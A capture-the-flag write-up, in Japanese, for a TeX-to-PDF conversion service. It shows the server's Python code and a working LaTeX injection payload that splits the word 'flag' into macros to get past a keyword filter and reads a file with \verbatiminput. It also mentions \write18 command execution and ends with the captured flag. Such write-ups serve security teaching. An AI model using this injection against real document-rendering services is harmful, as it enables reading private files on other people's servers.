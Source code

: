 # 解法
texをpdfに変換するサービスが動いているようだ。  
![site.png](images/site.png)  
配布されたファイルからflagファイルにフラグが書かれているようだ。  
ソースコードの主要な関数は以下のようになっている。  
```python
~~~
def tex2pdf(tex_code) -> str:
    # Generate random file name.
    filename = "".join([random.choice(string.digits + string.ascii_lowercase + string.ascii_uppercase) for i in range(2**5)])
    # Create a working directory.
    os.makedirs(f"tex_box/{filename}", exist_ok=True)
    # .tex -> .pdf
    try:
        # No flag !!!!
        if "flag" in tex_code.lower():
            tex_code = ""
        # Write tex code to file.
        with open(f"tex_box/{filename}/{filename}.tex", mode="w") as f:
            f.write(tex_code)
        # Create pdf from tex.
        subprocess.run(["pdflatex", "-output-directory", f"tex_box/{filename}", f"tex_box/{filename}/{filename}.tex"], timeout=0.5)
    except:
        pass
    if not os.path.isfile(f"tex_box/{filename}/{filename}.pdf"):
        # OMG error ;(
        shutil.copy("tex_box/error.pdf", f"tex_box/{filename}/{filename}.pdf")
    return f"{filename}"

@app.route("/pdf", methods=["POST"])
def pdf():
    # tex to pdf.
    filename = tex2pdf(request.form.get("tex_code"))
    # Here's your pdf.
    with open(f"tex_box/{filename}/{filename}.pdf", "rb") as f:
        pdf = io.BytesIO(f.read())
    shutil.rmtree(f"tex_box/{filename}/")
    return send_file(pdf, mimetype="application/pdf")
~~~
```
`pdflatex`に入力したLaTeXコードを渡しているようだ。  
壊れたtexを送信するとエラーpdfが返ってくるので、悪用できそうにない(本当はいろいろできるかもしれない)。  
ここでLaTeXにはファイルを読み取る機能があることを思い出す。  
ペイロードを探すと[LaTex Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)が見つかる。  
これで任意のファイルが読みだせそうだ(`-shell-escape`がついていないので`\write18`のRCEは難しい)。  
文字列`flag`が消されるので、バイパス手法を考える。  
LaTeXはマクロ定義が可能なので、文字列`flag`を分割してやればよい。  
以下のtexでファイルを読み出す。  
```tex
\documentclass{article}
\usepackage{verbatim}
\begin{document}

\def \fl {fl}
\def \ag {ag}

\verbatiminput{\fl\ag}

\end{document}
```
送信するとflagが書き込まれたpdfが返ってくる。  
ちなみにLeTexファイルとして読み込む`\input`を用いる場合、flag形式が`ctf4b{[\x20-\x7e]+}`なので特殊文字(`_`など)でエラーが発生する可能性がある。  
これはローカルではフラグがダミーであるため発生しなかったかもしれないが、`\catcode`などを用いて回避する必要がある。  

## ctf4b{15_73x_pr0n0unc3d_ch0u?}